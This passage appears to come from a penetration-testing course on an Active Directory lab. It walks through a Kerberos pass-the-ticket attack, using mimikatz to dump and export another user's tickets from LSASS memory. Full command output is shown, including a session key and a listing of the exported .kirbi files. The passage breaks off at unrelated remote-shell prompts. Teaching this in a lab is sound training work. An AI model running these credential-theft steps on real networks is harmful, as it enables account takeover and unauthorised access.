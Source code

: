 > Listing 23 - Verifying that the user jen has no access to the shared folder

Confirming that *jen* has no access to the restricted folder, we can now launch mimikatz, enable debug privileges, and export all the TGT/TGS from memory with the **sekurlsa::tickets /export** command.

```
mimikatz #privilege::debug
Privilege '20' OK

mimikatz #sekurlsa::tickets /export

Authentication Id : 0 ; 2037286 (00000000:001f1626)
Session           : Batch from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 6:24:17 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103

         * Username : dave
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/14/2022 6:24:17 AM ; 9/14/2022 4:24:17 PM ; 9/21/2022 6:24:17 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP ; @ CORP.COM
           Client Name  (01) : dave ; @ CORP.COM ( CORP )
           Flags 40c10000    : name_canonicalize ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             f0259e075fa30e8476836936647cdabc719fe245ba29d4b60528f04196745fe6
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;1f1626]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi !
...
```

> Listing 24 - Exporting Kerberos TGT/TGS to disk

The above command parsed the [*LSASS*](https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection) process space in memory for any TGT/TGS, which is then saved to disk in the kirbi mimikatz format.

Inspecting the generated tickets indicates that *dave* had initiated a session. We can try to inject one of their tickets inside *jen*'s sessions.

We can verify newly generated tickets with **dir**, filtering out on the **kirbi** extension.

```
PS C:\Tools> dir *.kirbi

    Directory: C:\Tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;12bd0]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c6860]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c6860]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c7bcc]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c7bcc]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c933d]-0-0-40810000-dave@cifs-web04.kirbi
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname